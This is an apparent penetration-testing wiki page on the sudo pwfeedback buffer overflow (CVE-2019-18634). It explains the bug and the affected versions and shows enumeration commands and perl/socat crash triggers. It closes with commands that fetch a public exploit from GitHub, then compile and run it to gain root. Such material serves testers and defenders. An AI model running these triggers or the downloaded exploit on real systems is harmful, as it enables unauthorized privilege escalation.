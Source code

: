 ```yaml
---
description: CVE-2019-18634
---
```


# Pwfeedback BOF

## Theory

Sudo’s pwfeedback option can be used to provide visual feedback when the user is inputting their password. For each key press, an asterisk is printed. This option was added in response to user confusion over how the standard `Password:` prompt disables the echoing of key presses. While pwfeedback is not enabled by default in the upstream version of sudo, some systems, such as Linux Mint and Elementary OS, do enable it in their default sudoers files.

The vulnerability affect sudo versions **1.7.1** to **1.8.30**.

{% hint style="danger" %}
Exploiting the bug does not require sudo permissions, merely that pwfeedback be enabled. The bug can be reproduced by passing a large input with embedded terminal kill characters to sudo from a pseudo-terminal
{% endhint %}

## Practice

{% tabs %}
{% tab title="Enumerate" %}
To exploit, sudo version must be vulnerable (**1.7.1** to **1.8.30**)

```bash
$ sudo -V
Sudo version 1.8.30
```

Pwfeedback must be enabled. You may verify it with `sudo -l`. If pwfeedback is listed in the “Matching Defaults entries” output, the sudoers configuration is affected.

```bash
$ sudo -l
[sudo] password for user:
Matching Defaults entries for user on vulnserver:
    env_reset, pwfeedback, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User user may run the following commands on vulnserver:
    (ALL:ALL) /usr/bin/python3 /opt/custom/service.py
```

To check the exploitability of sudo, you may run the following commands. If it's returns a `Segmentation fault` error message, then it’s vulnerable.

```bash
$ socat pty,link=/tmp/pty,waitslave exec:"perl -e 'print((\"A\" x 100 . chr(0x15)) x 50)'" &
$ sudo -S -k id < /tmp/pty
Password: Segmentation fault (core dumped)
```

For sudo versions prior to 1.8.26, and on systems with uni-directional pipes, reproducing the bug is simpler.

```bash
$ perl -e 'print(("A" x 100 . chr(0)) x 50)' | sudo -S -k id
Password: Segmentation fault (core dumped)
```
{% endtab %}

{% tab title="Exploit" %}
We can use the [exploit](https://raw.githubusercontent.com/saleemrashid/sudo-cve-2019-18634/master/exploit.c) written by Saleem Rashid.

```bash
wget https://raw.githubusercontent.com/saleemrashid/sudo-cve-2019-18634/master/exploit.c
gcc -o exploit exploit.c
./exploit
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://www.sudo.ws/security/advisories/pwfeedback/" %}
